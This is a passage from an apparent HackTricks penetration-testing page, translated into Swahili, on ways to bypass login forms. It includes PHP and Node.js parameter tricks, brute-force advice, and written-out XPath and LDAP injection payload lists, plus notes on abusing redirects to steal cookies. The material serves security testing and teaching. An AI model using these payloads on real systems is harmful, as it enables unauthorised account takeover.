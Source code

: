 # Login Bypass

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) ni tukio muhimu zaidi la usalama wa mtandao nchini **Hispania** na moja ya muhimu zaidi barani **Ulaya**. Kwa **lengo la kukuza maarifa ya kiufundi**, kongamano hili ni mahali pa kukutana kwa wataalamu wa teknolojia na usalama wa mtandao katika kila taaluma.

{% embed url="https://www.rootedcon.com/" %}

## **Kuzidi kuingia kawaida**

Ikiwa unapata ukurasa wa kuingia, hapa unaweza kupata mbinu kadhaa za kujaribu kuupita:

* Angalia **maoni** ndani ya ukurasa (piga chini na kulia?)
* Angalia ikiwa unaweza **kufikia moja kwa moja kurasa zilizozuiliwa**
* Angalia **usitume vigezo** (usitume chochote au 1 tu)
* Angalia **makosa ya kulinganisha ya PHP:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Badilisha aina ya maudhui kuwa json** na tuma thamani za json (bool true ikijumuishwa)
* Ikiwa unapata jibu linalosema kwamba POST haitakiwi unaweza kujaribu kutuma **JSON katika mwili lakini kwa ombi la GET** na `Content-Type: application/json`
* Angalia makosa ya uwezekano ya parsing ya nodejs (soma [**hii**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs itabadilisha payload hiyo kuwa query inayofanana na ifuatayo: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` ambayo inafanya sehemu ya password kuwa daima kweli.
* Ikiwa unaweza kutuma kitu cha JSON unaweza kutuma `"password":{"password": 1}` ili kupita kuingia.
* Kumbuka kwamba ili kupita kuingia hii bado unahitaji **kujua na kutuma jina la mtumiaji halali**.
* **Kuongeza `"stringifyObjects":true`** chaguo unapoitisha `mysql.createConnection` hatimaye itab**lokuza tabia zisizotarajiwa wakati `Object` inapopita** katika parameter.
* Angalia akidi:
* [**Akidi za kawaida**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) za teknolojia/jukwaa lililotumika
* **Mchanganyiko wa kawaida** (root, admin, password, jina la teknolojia, mtumiaji wa kawaida na moja ya nywila hizi).
* Unda kamusi ukitumia **Cewl**, **ongeza** jina la mtumiaji na nywila **za kawaida** (ikiwa zipo) na jaribu kujaribu nguvu kutumia maneno yote kama **majina ya watumiaji na nywila**
* **Jaribu nguvu** ukitumia kamusi kubwa zaidi (**[**Jaribu nguvu**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)

### SQL Injection authentication bypass

[Hapa unaweza kupata mbinu kadhaa za kupita kuingia kupitia **SQL injections**](../sql-injection/#authentication-bypass).

Katika ukurasa ufuatao unaweza kupata **orodha maalum ya kujaribu kupita kuingia** kupitia SQL Injections:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection authentication bypass

[Hapa unaweza kupata mbinu kadhaa za kupita kuingia kupitia **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

Kama NoSQL Injections inahitaji kubadilisha thamani za vigezo, utahitaji kujaribu kwa mikono.

### XPath Injection authentication bypass

[Hapa unaweza kupata mbinu kadhaa za kupita kuingia kupitia **XPath Injection.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[Hapa unaweza kupata mbinu kadhaa za kupita kwenye kuingia kupitia **LDAP Injection.**](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Kumbuka Mimi

Ikiwa ukurasa una kazi ya "**Kumbuka Mimi**" angalia jinsi ilivyoanzishwa na uone kama unaweza kuitumia vibaya ili **kuchukua akaunti nyingine**.

### Mwelekeo

Kurasa kwa kawaida huwasilisha watumiaji baada ya kuingia, angalia kama unaweza kubadilisha mwelekeo huo ili kusababisha [**Mwelekeo Wazi**](../open-redirect.md). Labda unaweza kuiba baadhi ya taarifa (codes, cookies...) ikiwa utaelekeza mtumiaji kwenye wavuti yako.

## Ukaguzi Mwingine

* Angalia kama unaweza **kuhesabu majina ya watumiaji** kwa kutumia kazi ya kuingia.
* Angalia kama **kujaza kiotomatiki** kuna kazi katika nywila/**maelezo** nyeti **fomu** **ingizo:** `<input autocomplete="false">`

## Zana za Kiotomatiki
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) ni tukio muhimu zaidi la usalama wa mtandao katika **Hispania** na moja ya muhimu zaidi katika **Ulaya**. Kwa **lengo la kukuza maarifa ya kiufundi**, kongamano hili ni mahali pa kukutana kwa wataalamu wa teknolojia na usalama wa mtandao katika kila taaluma.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

